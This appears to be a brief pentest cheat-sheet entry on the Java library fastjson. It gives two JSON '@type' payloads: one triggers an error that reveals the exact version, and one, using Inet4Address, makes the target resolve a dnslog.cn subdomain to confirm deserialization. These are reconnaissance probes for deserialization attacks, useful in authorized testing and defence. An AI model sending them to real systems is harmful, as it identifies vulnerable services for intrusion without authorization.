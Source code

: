 # fastjson common

#### fastjson获取精确版本 通过报错获取

```java
{"@type": "java.lang.AutoCloseable"
```

dnslog

```java
{"@type":"java.net.Inet4Address","val":"xv0hu4.dnslog.cn"}
```
